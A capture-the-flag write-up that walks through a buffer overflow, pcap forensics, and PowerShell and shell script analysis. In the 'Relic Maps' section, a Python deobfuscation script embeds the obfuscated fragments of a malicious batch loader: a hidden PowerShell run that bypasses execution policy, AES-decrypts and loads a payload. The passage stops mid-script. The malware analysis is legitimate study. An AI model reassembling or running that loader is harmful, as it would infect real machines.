> * **Given files:** [Get it here!](https://drive.google.com/file/d/1WbbUvsAAZ--CfdrHmOggCGuLa8q_rzuV/view?usp=sharing)

We are given a binary, a C file and a netcat server to work with.

Same with the above challenge, netcat tells us to fill in some questions.

``` showLineNumbers{1} /apply/ /components/
    Stack frame layout

    |      .      | <- Higher addresses
    |      .      |
    |_____________|
    |             | <- 64 bytes
    | Return addr |
    |_____________|
    |             | <- 56 bytes
    |     RBP     |
    |_____________|
    |             | <- 48 bytes
    |   target    |
    |_____________|
    |             | <- 40 bytes
    |  alignment  |
    |_____________|
    |             | <- 32 bytes
    |  Buffer[31] |
    |_____________|
    |      .      |
    |      .      |
    |_____________|
    |             |
    |  Buffer[0]  |
    |_____________| <- Lower addresses


        [Addr]       |      [Value]
    -------------------+-------------------
    0x00007fff1ca33230 | 0x0000000000000000 <- Start of buffer
    0x00007fff1ca33238 | 0x0000000000000000
    0x00007fff1ca33240 | 0x0000000000000000
    0x00007fff1ca33248 | 0x0000000000000000
    0x00007fff1ca33250 | 0x6969696969696969 <- Dummy value for alignment
    0x00007fff1ca33258 | 0x00000000deadbeef <- Target to change
    0x00007fff1ca33260 | 0x000055cf39fcf800 <- Saved rbp
    0x00007fff1ca33268 | 0x00007f62c548ac87 <- Saved return address
    0x00007fff1ca33270 | 0x0000000000000001
    0x00007fff1ca33278 | 0x00007fff1ca33348


    After we insert 4 "A"s, (the hex representation of A is 0x41), the stack layout like this:


        [Addr]       |      [Value]
    -------------------+-------------------
    0x00007fff1ca33230 | 0x0000000041414141 <- Start of buffer
    0x00007fff1ca33238 | 0x0000000000000000
    0x00007fff1ca33240 | 0x0000000000000000
    0x00007fff1ca33248 | 0x0000000000000000
    0x00007fff1ca33250 | 0x6969696969696969 <- Dummy value for alignment
    0x00007fff1ca33258 | 0x00000000deadbeef <- Target to change
    0x00007fff1ca33260 | 0x000055cf39fcf800 <- Saved rbp
    0x00007fff1ca33268 | 0x00007f62c548ac87 <- Saved return address
    0x00007fff1ca33270 | 0x0000000000000001
    0x00007fff1ca33278 | 0x00007fff1ca33348


    After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:


        [Addr]       |      [Value]
    -------------------+-------------------
    0x00007fff1ca33230 | 0x4242424241414141 <- Start of buffer
    0x00007fff1ca33238 | 0x0000000000000000
    0x00007fff1ca33240 | 0x0000000000000000
    0x00007fff1ca33248 | 0x0000000000000000
    0x00007fff1ca33250 | 0x6969696969696969 <- Dummy value for alignment
    0x00007fff1ca33258 | 0x00000000deadbeef <- Target to change
    0x00007fff1ca33260 | 0x000055cf39fcf800 <- Saved rbp
    0x00007fff1ca33268 | 0x00007f62c548ac87 <- Saved return address
    0x00007fff1ca33270 | 0x0000000000000001
    0x00007fff1ca33278 | 0x00007fff1ca33348
```

From the netcat, we are provided with these informations.

We can answer the question by looking at the informations given, where we have to overwrite the alignment address and the `target's 0xdeadbeef` value. 

From the stack layout given above, we can see that to fully overwrite, we need at least 40 bytes input (assume that we use Linux terminal because there will be a `\x00` overwrite at the right of the `target's 0xdeadbeef` value) which will look like this.


I don't know why it prints out `[-] You failed!` though...

Flag is: `HTB{b0f_s33m5_3z_r1ght?}` 

## Plaintext Tleasure

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1O77S-Ti8GErZxdZoYiTKEWsCBWn6Fp9b/view?usp=sharing)

We are given a network pcap file. Although we can solve this challenge using [Wireshark](https://www.wireshark.org/), but to keep it simple for the very first challenge, we will use [strings](https://www.howtogeek.com/427805/how-to-use-the-strings-command-on-linux/) and [grep](https://www.geeksforgeeks.org/grep-command-in-unixlinux/) to get the flag.

Here we use strings to dump out strings from the pcap file, then use pipe `(|)` and grep to find for strings that match the flag format - `HTB{`.


Flag is: `HTB{th3s3_4l13ns_st1ll_us3_HTTP}`

## Alien Cradle

> * **Given files:** [Get it here!](https://drive.google.com/file/d/12HfCz9D5QnpK7kQBwjCINwv29T5sr6Nc/view?usp=sharing)

For this challenge, we are given a Powershell Script file. In the script, the flag is being concatenated using some Powershell ~~magic~~ lines of code.

Flag is: `HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}`

## Extraterrestrial Persistence

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1-ySd0Z3kKvX3djL228eU0_vddZf4Pdn9/view?usp=sharing)

In this challenge, we are given a shell script to look for the flag. 

For the sake of understanding the flow of shell scripting, the script checks whether the username is `Pandora` and the hostname is `linux_HQ`. If the check is fulfilled, it starts the process to write the base64 decoded message into the file `/usr/lib/systemd/system/service.service`. 

The decoded message turned out to contain the flag for our challenge.

Flag is: `HTB{th3s3_4l13nS_4r3_s00000_b4s1c}`

## Relic Maps

> * **Given files:** [Get it here!](https://drive.google.com/file/d/1oyfMzfnOM69pQdIVi9j63dkLZ2xvVkgq/view?usp=sharing)

From the link attached to this challenge, we get an Onenote file named `relicmaps.one`. Analyze the file, we get 2 suspicious links, which lead us to 2 different files, [http://relicmaps.htb/uploads/soft/topsecret-maps.one](https://drive.google.com/file/d/14FBabJvLlTAjhCKbJBPMk6iI9u83HI0j/view?usp=share_link) and [http://relicmaps.htb/get/DdAbds/window.bat](https://drive.google.com/file/d/1t9jembhbhIFY6PE7Lx3J7yA5prTsVGXv/view?usp=share_link).

I did some analysis on the file `topsecret-maps.one`, and there are only some PNGs inside it. In the `window.bat` file, we are given a Powershell Script. You can run it directly, but I choose to deobfuscate using Python to understand its flow.

```py title="solve/deobf.py" showLineNumbers{1} /apply/ /components/
    dict = """
    %eFlP%"ualBOGvshk=ws"
    %eFlP%"PxzdwcSExs= /"
    %eFlP%"ndjtYQuanY=po"
    %eFlP%"cHFmSnCqnE=Wi"
    %eFlP%"CJnGNBkyYp=co"
    %eFlP%"jaXcJXQMrV=rS"
    %eFlP%"nwIWiBzpbz=:\"
    %eFlP%"xprVJLooVF=Po"
    %eFlP%"tzMKflzfvX=0\"
    %eFlP%"VCWZpprcdE=1."
    %eFlP%"XzrrbwrpmM=\v"
    %eFlP%"BFTOQBPCju=st"
    %eFlP%"WmUoySsDby=he"
    %eFlP%"tHJYExMHlP=rs"
    %eFlP%"JPfTcZlwxJ=do"
    %eFlP%"VxroDYJQKR=y "
    %eFlP%"UBndSzFkbH=py"
    %eFlP%"KXASGLJNCX=ll"
    %eFlP%"vlwWETKcZH=em"
    %eFlP%"OOOxFGwzUd=e""
    %eFlP%"NCtxqhhPqI=32"
    %eFlP%"GOPdPuwuLd=\W"
    %eFlP%"XUpMhOyyHB=ex"
    %eFlP%"cIqyYRJWbQ=we"
    %eFlP%"kTEDvsZUvn=nd"
    %eFlP%"XBucLtReBQ=Sy"
    %eFlP%"JBRccySrUq=ow"
    %eFlP%"eNOycQnIZD=xe"
    %eFlP%"chXxviaBCr=we"
    %eFlP%"YcnfCLfyyS=in"
    %eFlP%"lYCdEGtlPA=.e"
    %eFlP%"pMrovuxjjq=he"
    %eFlP%"UrPeBlCopW=ll"
    %eFlP%"ujJtlzSIGW= C"
    %eFlP%"zhNAugCrcK="%~0."
    %eFlP%"ZqjBENExAX=s\"
    %VhIy%"dzPrbmmccE=cd"
    %VhIy%"xQseEVnPet= "%~dp0""
    %eUFw%"wxzMwkmbmY=gDBN"
    %eUFw%"VavtsuhNIN=F'[-"
    %eUFw%"AHKCuBAkui=r = "
    %eUFw%"ARecVABHyu=uZOc"
    %eUFw%"AbZpTpKurz=6] -"
    %eUFw%"BaMYsIgnsM=$uZO"
    %eUFw%"JBUgbyTPxp=m(, "
    %eUFw%"vGOYQQYIpx=.-16"
    %eUFw%"yPzFwnsYdA= New"
    %eUFw%"zuIYfGJIhV=O.Me"
    %eUFw%"gbXeIdPSoj='[-1"
    %eUFw%"BqEMjgsfHM=]::("
    %eUFw%"bivuMABwCB=Invo"
    %eUFw%"SJsEzuInUY=ile "
    %eUFw%"htJeDhbeDW=();$"
    %eUFw%"ZygfZJxAOd=acUA"
    %eUFw%"eDhTebXJLa="%~nx0."
    %eUFw%"YlKbYsFYPy=in $"
    %eUFw%"jdKMRqipbM=e]::"
    %eUFw%"GVIREkvxRa=();$"
    %eUFw%"OckpqzbYcn=n ''"
    %eUFw%"UPfjubfNXt=Mr, "
    %eUFw%"AkaPyEXHFq=esMa"
    %eUFw%"LODxmGMGqq=flec"
    %eUFw%"hImzprlFyw=pose"
    %eUFw%"VZAbZqJHBk=1] -"
    %eUFw%"WYJXnBQBDj= [Sy"
    %eUFw%"rSVBNvbdPT=stem"
    %eUFw%"tVtxVGNpFB=vert"
    %eUFw%"tHHIjVCHeH=::De"
    %eUFw%"WvjMoIIiUn=);$b"
    %eUFw%"vmIEtsktnA=ypto"
    %eUFw%"AbMyvUGzSH=fore"
    %eUFw%"zDUDeXKPaV=..-1"
    %eUFw%"INPLAzQfUo== [S"
    %eUFw%"ArAxZuPIrp== $B"
    %eUFw%"nGqMpclaJV=ZOcm"
    %eUFw%"lfYSggLrsL=null"
    %eUFw%"eQPFkQsLmh=hy.A"
    %eUFw%"AyyrPvjwjr=;$mN"
    %eUFw%"rjhOhltPzI=Disp"
    %eUFw%"WojQSFImBz=17js"
    %eUFw%"SKEwAQBRlN=$Nlg"
    %eUFw%"KytxcYPZKt=YiLG"
    %eUFw%"RGlZIMTaRM=urit"
    %eUFw%"igJmqZApvQ=ss -"
    %eUFw%"dGSGnKbkQW=pose"
    %eUFw%"lSUnvlNyZI=tem."
    %eUFw%"rddZbDFvhl=)))"
    %eUFw%"KHqiJghRbq=and "
    %eUFw%"WPGlloqWfh=ddin"
    %eUFw%"pLUeCEDcNj=]::C"
    %eUFw%"drymkVAnZW=);$B"
    %eUFw%"KdByPVjCnF=ring"
    %eUFw%"VnDoNvCbDL=orF'"
    %eUFw%"GapFScCcpe=ke($"
    %eUFw%"iVrCyJhMiJ=fc6t"
    %eUFw%"oMsMdPYmPd=ert]"
    %eUFw%"odWdfvJnBE=Lk ="
    %eUFw%"ekEoGMuERC=yste"
    %eUFw%"QMmDXFyyag=Syst"
    %eUFw%"cYinxarhDL=lit("
    %eUFw%"bIgeRgvTeJ=ap.T"
    %eUFw%"acXjUrxrpX=raph"
    %eUFw%"SCbDgQuqTU=ay()"
    %eUFw%"YYKSCuCbgJ=New-"
    %eUFw%"YnGvhgYxvb=cm ="
    %eUFw%"vnHosfjdeN=;$Pt"
    %eUFw%"LIQYgFxctD=d;$B"
    %eUFw%"olHsTHINJO=[Env"
    %eUFw%"WQqetkePWs=NVPb"
    %eUFw%"AGOCIKFMEK=::('"
    %eUFw%"QbKdEZdxpx=uGcO"
    %eUFw%"RWcegafVtf=daeR"
    %eUFw%"ESpdErsKEO=pher"
    %eUFw%"kJjQuXIjOT=.Con"
    %eUFw%"dbDMRBPrxg=uGcO"
    %eUFw%"mBIWiJNHWZ=esaB"
    %eUFw%"WmHvayPxwd=.Mem"
    %eUFw%"oQYrpYRHsU=stem"
    %eUFw%"HFLAqJuuyu=ew-O"
    %eUFw%"JhYYmEHfJT=ing("
    %eUFw%"pTKKchMUFD=BC;$"
    %eUFw%"vShQyqnqqU=exe""
    %eUFw%"PjdRUyhsyG=[]] "
    %eUFw%"VUeZKgDBUe=.Com"
    %eUFw%"oNvGdyNkLt=oArr"
    %eUFw%"IAkZpnEseT=UA.I"
    %eUFw%"haSZYOmkiA=bstr"
    %eUFw%"tzSNMWchGN=]::N"
    %eUFw%"YKwLsVwqOj=Fina"
    %eUFw%"MFRjJyYsrs=k; }"
    %eUFw%"EdLUuXiTNo=File"
    %eUFw%"nMbUuONTOk=7;$B"
    %eUFw%"OAsjgKHKoH= = N"
    %eUFw%"LLNnWnTLBJ=$bTM"
    %eUFw%"xVIsxobyZi= '')"
    %eUFw%"pUKFMEPFQs=onve"
    %eUFw%"DDiJEpaiME=acUA"
    %eUFw%"ENADhKPHot= [st"
    %eUFw%"WTAeYdswqF=.IO."
    %eUFw%"hVncqdtHrj=[Sys"
    %eUFw%"EUwICZcugV=);$N"
    %eUFw%"USLedfRsdA=ispo"
    %eUFw%"YULKJDZpgz=t Sy"
    %eUFw%"BlIFABuPAW=ress"
    %eUFw%"gNabAkLFGN=();$"
    %eUFw%"cGJiVEdEzp=ZOcm"
    %eUFw%"OpWuyrggtP=ddin"
    %eUFw%"NbOjNijxuU=.Len"
    %eUFw%"EuMCNHEVeC=nirt"
    %eUFw%"iHRclHpeVX=-joi"
    %eUFw%"zFvgtBzUer=Comp"
    %eUFw%"klVPUdMJas=ecry"
    %eUFw%"tBsRPAyhtG=;$gD"
    %eUFw%"uOGlqENvnk=$NVP"
    %eUFw%"WSRbQhwrOC=$eIf"
    %eUFw%"gFQQimTbzp=bjec"
    %eUFw%"FCBcNynRGD=Bmor"
    %eUFw%"gNELMMjyFY=-win"
    %eUFw%"pqWXTkasXe=+M0z"
    %eUFw%"pjrIjvjdGR=tryP"
    %eUFw%"aGQeJYSFDZ=m.Re"
    %eUFw%"hknFiXCnZQ=ion."
    %eUFw%"MxwsyqmvYm=.Cre"
    %eUFw%"FijcPoQLnC=ne);"
    %eUFw%"VGKsxiJBaT=.Sec"
    %eUFw%"roXhULjavE=pres"
    %eUFw%"FraARuTjiq=($Yi"
    %eUFw%"rEvTlCThdH=VIHX"
    %eUFw%"JCuNlxqlBZ=:: '"
    %eUFw%"BANrSlObpx=nage"
    %eUFw%"CMHWMmXlZO=eam("
    %eUFw%"MtoMzhoqyY=bypa"
    %eUFw%"xfHbUEWpFC=-Obj"
    %eUFw%"ktDjVGpvOa=pStr"
    %eUFw%"hzjnwzdyGY=ct S"
    %eUFw%"HkiSTlwlIs=-4] "
    %eUFw%"AnKEeEZdOq=rans"
    %eUFw%"doKcadyJqy=xU7e"
    %eUFw%"dyJHMHMcNc=S46e"
    %eUFw%"jCsFOJQsdv=tem."
    %eUFw%"pEeOvclMbZ=PKCS"
    %eUFw%"fFqNPWfBWr=se()"
    %eUFw%"XEyDmChJvW= = $"
    %eUFw%"ZMNBNnhYdl=BacU"
    %eUFw%"UmCJMMMcBg=m.IO"
    %eUFw%"FcrKUOEnOU=.Cop"
    %eUFw%"eYuashSMjP=y.Ci"
    %eUFw%"reviZiSttH=oryS"
    %eUFw%"xijYXotZPT=Comp"
    %eUFw%"yqhJQSZuJo=rAsa"
    %eUFw%"QCZuMFaZsV=lBlo"
    %eUFw%"DAaZVQYtML=V = "
    %eUFw%"gbVsRGzTij=.Key"
    %eUFw%"OOiwgwuupI=ose("
    %eUFw%"hbFnQgCXwX=Secu"
    %eUFw%"AiqHTcPzsv=th('"
    %eUFw%"KUKwZheGNw=BNO "
    %eUFw%"OonlMOpxYC=tem."
    %eUFw%"oFspIELDJK=ewLi"
    %eUFw%"isQISZiBPJ=acUA"
    %eUFw%"EiWocIreAk=yTo("
    %eUFw%"CZpuCIcrKh=Secu"
    %eUFw%"ZNBNkxQuUl=.GZi"
    %eUFw%"ZPlPiozEyW='')("
    %eUFw%"eFWpiweoyr=am;$"
    %eUFw%"kEHDlJOIVc=gMod"
    %eUFw%"PwJJFMgamh=eHDU"
    %eUFw%"nfEeCcWKKK=-ep "
    %eUFw%"dAuevoJWoL=gnir"
    %eUFw%"BMVjGSkNrk=.Cry"
    %eUFw%"GwAFOSfUtV=acUA"
    %eUFw%"bSIafzAxiZ=Lk.T"
    %eUFw%"uynFENuiYB=iron"
    %eUFw%"BGoTReCegg=qq ="
    %eUFw%"DXdgqiFTAH=ptog"
    %eUFw%"QNxYaFZSBu=);$P"
    %eUFw%"shhyfkrTvn=m = "
    %eUFw%"fvEtritbuM= = $"
    %eUFw%"IwOqmlYsbl=('da"
    %eUFw%"EDuGpmwedn=m = "
    %eUFw%"rFsKCxpAbv=.Dis"
    %eUFw%"HLynrUfwGo=6esa"
    %eUFw%"wwmTmFdRsZ=trea"
    %eUFw%"IeRiYUFnCZ=Obje"
    %eUFw%"kxCYxBSxVM=..-1"
    %eUFw%"xULgeMdzcg='0xd"
    %eUFw%"vXewtPjogB=$bTM"
    %eUFw%"GhTXhmRnCR=, (,"
    %eUFw%"MBvrUwPCDz=m.IO"
    %eUFw%"KVdpASYkBZ=A.Pa"
    %eUFw%"fxpyemHAMo=Stre"
    %eUFw%"KtmeCApwQn=tion"
    %eUFw%"jWtWLzuDKP=bbqM"
    %eUFw%"xllGdjvUjB=em.I"
    %eUFw%"ahbOZSBViB=Star"
    %eUFw%"MusMeoeDey=Disp"
    %eUFw%"ySgQyAAfQH=ect "
    %eUFw%"LPGeAanVGt=3); "
    %eUFw%"LYxpWUVnyn==');"
    %eUFw%"TfyrgNGxBL=ress"
    %eUFw%"ZNnASGtLCj=y]::"
    %eUFw%"KXttaDcyMZ=.Mod"
    %eUFw%"RfMwENsorP=morF"
    %eUFw%"CZTFliIBbC=:('g"
    %eUFw%"mYyPXMYwYi=oint"
    %eUFw%"SIQjFslpHA=comm"
    %eUFw%"pibEdoDBbD=mNKM"
    %eUFw%"TVsNOuCNZd= '')"
    %eUFw%"yQujDHraSv= hid"
    %eUFw%"fVHBRsLNUl='gni"
    %eUFw%"iREuYMPcTg=ct S"
    %eUFw%"uDsfTCYsro=g = "
    %eUFw%"zwDBykiqZZ=den "
    %eUFw%"weRTbbZPjT=tyle"
    %eUFw%"uwRWnyAikF=tS46"
    %eUFw%"bTHJpHTPMM=)($V"
    %eUFw%"TuqTvTpeOG=bn.D"
    %eUFw%"GWrDWSvoPL=W.Su"
    %eUFw%"KXapePmHCe=form"
    %eUFw%"eeacPrYshd=iW20"
    %eUFw%"XEcuUpquLQ=ress"
    %eUFw%"iCcGUuJxVn=.Dis"
    %eUFw%"WXWHLOygSe=gap."
    %eUFw%"XIAbFAgCIP=dows"
    %eUFw%"QzqEkBCLON=Lk);"
    %eUFw%"pCjFJxRqgH=Conv"
    %eUFw%"TEtLFfgLmA=TMLk"
    %eUFw%"GzBAHPVuTq=] -j"
    %eUFw%"VUsEoebHks=('2h"
    %eUFw%"YiVTQhqRnm=New-"
    %eUFw%"kQQvXhxXIT=Mode"
    %eUFw%"RITIeDNkWx=$mNK"
    %eUFw%"LNwemqbftD=saBm"
    %eUFw%"DCnzMxKRnm=ose("
    %eUFw%"ftaecaUnft=;$Nl"
    %eUFw%"KhyyrSrcKr='[-1"
    %eUFw%"QpDqsQAemY=rt]:"
    %eUFw%"RycUceHQZc=ck($"
    %eUFw%"QTBYjmNXEB=[Sys"
    %eUFw%"iKAAuWsbec=).Sp"
    %eUFw%"UAnQUvXBfs=$bTM"
    %eUFw%"zhsTKtujLg=acUA"
    %eUFw%"CpAQgSdzaC=Syst"
    %eUFw%"qIhOqqdyjR=uZOc"
    %eUFw%"LmCknrHfoB=ach "
    %eUFw%"dlzhxQnMss=TBkD"
    %eUFw%"YJZmDySMUy=)($u"
    %eUFw%"gqUdnmSTUN=LGW "
    %eUFw%"tuAPcYGhzl=n/J7"
    %eUFw%"jxjvtHoTnR=tfdQ"
    %eUFw%"jpqWVBsCpx=;$Nl"
    %eUFw%"HUAAetwukX=1..-"
    %eUFw%"rVOFKTskYR=]::("
    %eUFw%"XzWakcViZI=ptor"
    %eUFw%"hNwOTmvEJo=gGVE"
    %eUFw%"MFpVhvZMMs=ptog"
    %eUFw%"YRqcyngfyU=$Bac"
    %eUFw%"uIWSZVpUHl=sion"
    %eUFw%"QGiWXkfFPy=);$B"
    %eUFw%"JPOdGPAwht=/Ntk"
    %eUFw%"mxXhSCdBil=KMr."
    %eUFw%"TYbHmXrqgV=)) {"
    %eUFw%"kpEWZrtOzX=; };"
    %eUFw%"TypmIIEYJC=grap"
    %eUFw%"GEFNspgkfU=Obje"
    %eUFw%"glRvzlEEoe=join"
    %eUFw%"JbFOJyRrBm=oL'["
    %eUFw%"hwZKiiLqAE=LGW."
    %eUFw%"MrNTGKcbYu=n ''"
    %eUFw%"XClTzcVMGM=join"
    %eUFw%"XqtgTmRIdO=em.C"
    %eUFw%"nMLIkcyFZj='txe"
    %eUFw%"BrDOtQoojB=$uZO"
    %eUFw%"LfngwmfRCb=fdQ."
    %eUFw%"jtkYEPXtKX=TllA"
    %eUFw%"KAlyOryibJ=yste"
    %eUFw%"GJcpQprPXv=ionM"
    %eUFw%"rofQqYizRu=-joi"
    %eUFw%"UFSmCjquVd=rity"
    %eUFw%"SRYmoDJgcF=raph"
    %eUFw%"mFZJVdqlTD=[-1."
    %eUFw%"hbnAmGyJMk=gth)"
    %eUFw%"hTTJOKGuzo=brea"
    %eUFw%"JenYfqHzBk=y.Cr"
    %eUFw%"DwiWdAaOiv=cm);"
    %eUFw%"vPgKEvZmlQ===')"
    %eUFw%"jgiQdwyxFg=rtS4"
    %eUFw%"qpUykKHwzb=('%~f0'"
    %eUFw%"GLwLVWewUj=eIfq"
    %eUFw%"MAPkvbWKbC=.Ass"
    %eUFw%"jugDlMdkcG=.Cry"
    %eUFw%"TiuQnZmosP=-1.."
    %eUFw%"EQAuBusyXb=q) {"
    %eUFw%"GTgGJngEbX=[IO."
    %eUFw%"yZlAoExoOn=O.En"
    %eUFw%"sLNudRRtUX=  $V"
    %eUFw%"WauWfrgGak=ment"
    %eUFw%"YmUoUKWAtR=ode]"
    %eUFw%"yOkBDuSVrl= if "
    %eUFw%"MJKqSlzRdg=VPbn"
    %eUFw%"PmpGnAHBIo=, $u"
    %eUFw%"cUDojRpXKx= [Sy"
    %eUFw%"svwZUufvHX=y.Pa"
    %eUFw%"GDXqElqPYy=($Yi"
    %eUFw%"ybHVOwcPrc= = ["
    %eUFw%"hIpFAiXGDz=m, 0"
    %eUFw%"lfCLMrJHhW=gap "
    %eUFw%"NXvoEmTmgu=1Mwd"
    %eUFw%"DNNdkNfTiI=comp"
    %eUFw%"kpzxAxFvLw=('%*'"
    %eUFw%"MsfoqNTDfI=ateD"
    %eUFw%"MmhvJKSdep=mory"
    %eUFw%"uVLEiIUjzw=prof"
    %eUFw%"NvnNgHLBLJ=n7Lw"
    %eUFw%"owRVWPJqcX=rity"
    %eUFw%"HlBVDpGgba=embl"
    %eUFw%"SIneUaQPty=stem"
    %eUFw%"nogFGGEgdF=16] "
    %eUFw%"qsPTvcejTS=n = "
    %eUFw%"wEZCzuPukj=[Sys"
    %eUFw%"rVuFsOUxnm=yste"
    %eUFw%"fLycQgNMii=oin "
    %eUFw%"KsuJogdoiJ= -no"
    %eUFw%"djeIEnPaCg=tsWi"
    %eUFw%"brwOvSubJT=e = "
    %eUFw%"TOqZKQRZli=uZOc"
    """
    ls = dict.split('\"')
    txt = {}
    k = 0
    tmp = ''
    enc = '%CJnGNBkyYp%%UBndSzFkbH%%ujJtlzSIGW%%nwIWiBzpbz%%cHFmSnCqnE%%kTEDvsZUvn%%JBRccySrUq%%ZqjBENExAX%%XBucLtReBQ%%BFTOQBPCju%%vlwWETKcZH%%NCtxqhhPqI%%GOPdPuwuLd%%YcnfCLfyyS%%JPfTcZlwxJ%%ualBOGvshk%%xprVJLooVF%%cIqyYRJWbQ%%jaXcJXQMrV%%pMrovuxjjq%%KXASGLJNCX%%XzrrbwrpmM%%VCWZpprcdE%%tzMKflzfvX%%ndjtYQuanY%%chXxviaBCr%%tHJYExMHlP%%WmUoySsDby%%UrPeBlCopW%%lYCdEGtlPA%%eNOycQnIZD%%PxzdwcSExs%%VxroDYJQKR%%zhNAugCrcK%%XUpMhOyyHB%%OOOxFGwzUd%%dzPrbmmccE%%xQseEVnPet%%eDhTebXJLa%%vShQyqnqqU%%KsuJogdoiJ%%uVLEiIUjzw%%SJsEzuInUY%%gNELMMjyFY%%XIAbFAgCIP%%weRTbbZPjT%%yQujDHraSv%%zwDBykiqZZ%%nfEeCcWKKK%%MtoMzhoqyY%%igJmqZApvQ%%SIQjFslpHA%%KHqiJghRbq%%WSRbQhwrOC%%BGoTReCegg%%WYJXnBQBDj%%SIneUaQPty%%WTAeYdswqF%%EdLUuXiTNo%%rVOFKTskYR%%nMLIkcyFZj%%jtkYEPXtKX%%RWcegafVtf%%KhyyrSrcKr%%zDUDeXKPaV%%VZAbZqJHBk%%XClTzcVMGM%%xVIsxobyZi%%qpUykKHwzb%%iKAAuWsbec%%cYinxarhDL%%olHsTHINJO%%uynFENuiYB%%WauWfrgGak%%tzSNMWchGN%%oFspIELDJK%%FijcPoQLnC%%AbMyvUGzSH%%LmCknrHfoB%%GDXqElqPYy%%gqUdnmSTUN%%YlKbYsFYPy%%GLwLVWewUj%%EQAuBusyXb%%yOkBDuSVrl%%FraARuTjiq%%hwZKiiLqAE%%ahbOZSBViB%%djeIEnPaCg%%AiqHTcPzsv%%JCuNlxqlBZ%%TYbHmXrqgV%%sLNudRRtUX%%dbDMRBPrxg%%XEyDmChJvW%%KytxcYPZKt%%GWrDWSvoPL%%haSZYOmkiA%%JhYYmEHfJT%%LPGeAanVGt%%hTTJOKGuzo%%MFRjJyYsrs%%kpEWZrtOzX%%BrDOtQoojB%%YnGvhgYxvb%%cUDojRpXKx%%rSVBNvbdPT%%kJjQuXIjOT%%tVtxVGNpFB%%BqEMjgsfHM%%fVHBRsLNUl%%jgiQdwyxFg%%HLynrUfwGo%%FCBcNynRGD%%VavtsuhNIN%%HUAAetwukX%%nogFGGEgdF%%iHRclHpeVX%%MrNTGKcbYu%%bTHJpHTPMM%%QbKdEZdxpx%%drymkVAnZW%%DDiJEpaiME%%OAsjgKHKoH%%HFLAqJuuyu%%gFQQimTbzp%%YULKJDZpgz%%oQYrpYRHsU%%VGKsxiJBaT%%RGlZIMTaRM%%JenYfqHzBk%%vmIEtsktnA%%TypmIIEYJC%%eQPFkQsLmh%%AkaPyEXHFq%%BANrSlObpx%%LIQYgFxctD%%ZygfZJxAOd%%KXttaDcyMZ%%brwOvSubJT%%hVncqdtHrj%%OonlMOpxYC%%CZpuCIcrKh%%owRVWPJqcX%%jugDlMdkcG%%DXdgqiFTAH%%acXjUrxrpX%%eYuashSMjP%%ESpdErsKEO%%kQQvXhxXIT%%pLUeCEDcNj%%pTKKchMUFD%%ZMNBNnhYdl%%KVdpASYkBZ%%OpWuyrggtP%%uDsfTCYsro%%wEZCzuPukj%%jCsFOJQsdv%%hbFnQgCXwX%%UFSmCjquVd%%BMVjGSkNrk%%MFpVhvZMMs%%SRYmoDJgcF%%svwZUufvHX%%WPGlloqWfh%%kEHDlJOIVc%%jdKMRqipbM%%pEeOvclMbZ%%nMbUuONTOk%%GwAFOSfUtV%%gbVsRGzTij%%ybHVOwcPrc%%CpAQgSdzaC%%XqtgTmRIdO%%pUKFMEPFQs%%QpDqsQAemY%%CZTFliIBbC%%EuMCNHEVeC%%dyJHMHMcNc%%LNwemqbftD%%VnDoNvCbDL%%mFZJVdqlTD%%vGOYQQYIpx%%GzBAHPVuTq%%fLycQgNMii%%ZPlPiozEyW%%xULgeMdzcg%%iVrCyJhMiJ%%dlzhxQnMss%%pqWXTkasXe%%doKcadyJqy%%hNwOTmvEJo%%yqhJQSZuJo%%JPOdGPAwht%%rEvTlCThdH%%PwJJFMgamh%%eeacPrYshd%%LYxpWUVnyn%%YRqcyngfyU%%IAkZpnEseT%%DAaZVQYtML%%QTBYjmNXEB%%lSUnvlNyZI%%pCjFJxRqgH%%oMsMdPYmPd%%AGOCIKFMEK%%dAuevoJWoL%%uwRWnyAikF%%mBIWiJNHWZ%%RfMwENsorP%%gbXeIdPSoj%%kxCYxBSxVM%%AbZpTpKurz%%glRvzlEEoe%%TVsNOuCNZd%%VUsEoebHks%%tuAPcYGhzl%%WojQSFImBz%%NXvoEmTmgu%%jWtWLzuDKP%%NvnNgHLBLJ%%vPgKEvZmlQ%%ftaecaUnft%%lfCLMrJHhW%%ArAxZuPIrp%%zhsTKtujLg%%MxwsyqmvYm%%MsfoqNTDfI%%klVPUdMJas%%XzWakcViZI%%htJeDhbeDW%%ARecVABHyu%%EDuGpmwedn%%SKEwAQBRlN%%bIgeRgvTeJ%%AnKEeEZdOq%%KXapePmHCe%%YKwLsVwqOj%%QCZuMFaZsV%%RycUceHQZc%%TOqZKQRZli%%hIpFAiXGDz%%PmpGnAHBIo%%nGqMpclaJV%%NbOjNijxuU%%hbnAmGyJMk%%jpqWVBsCpx%%WXWHLOygSe%%rjhOhltPzI%%DCnzMxKRnm%%QGiWXkfFPy%%isQISZiBPJ%%iCcGUuJxVn%%dGSGnKbkQW%%gNabAkLFGN%%pibEdoDBbD%%AHKCuBAkui%%YYKSCuCbgJ%%IeRiYUFnCZ%%hzjnwzdyGY%%KAlyOryibJ%%MBvrUwPCDz%%WmHvayPxwd%%reviZiSttH%%wwmTmFdRsZ%%JBUgbyTPxp%%BaMYsIgnsM%%DwiWdAaOiv%%vXewtPjogB%%odWdfvJnBE%%yPzFwnsYdA%%xfHbUEWpFC%%ySgQyAAfQH%%QMmDXFyyag%%xllGdjvUjB%%zuIYfGJIhV%%MmhvJKSdep%%fxpyemHAMo%%eFWpiweoyr%%WQqetkePWs%%qsPTvcejTS%%YiVTQhqRnm%%GEFNspgkfU%%iREuYMPcTg%%rVuFsOUxnm%%UmCJMMMcBg%%VUeZKgDBUe%%roXhULjavE%%uIWSZVpUHl%%ZNBNkxQuUl%%ktDjVGpvOa%%CMHWMmXlZO%%RITIeDNkWx%%UPfjubfNXt%%GTgGJngEbX%%zFvgtBzUer%%TfyrgNGxBL%%hknFiXCnZQ%%xijYXotZPT%%BlIFABuPAW%%GJcpQprPXv%%YmUoUKWAtR%%tHHIjVCHeH%%DNNdkNfTiI%%XEcuUpquLQ%%EUwICZcugV%%MJKqSlzRdg%%FcrKUOEnOU%%EiWocIreAk%%LLNnWnTLBJ%%QzqEkBCLON%%uOGlqENvnk%%TuqTvTpeOG%%USLedfRsdA%%fFqNPWfBWr%%AyyrPvjwjr%%mxXhSCdBil%%MusMeoeDey%%OOiwgwuupI%%WvjMoIIiUn%%TEtLFfgLmA%%rFsKCxpAbv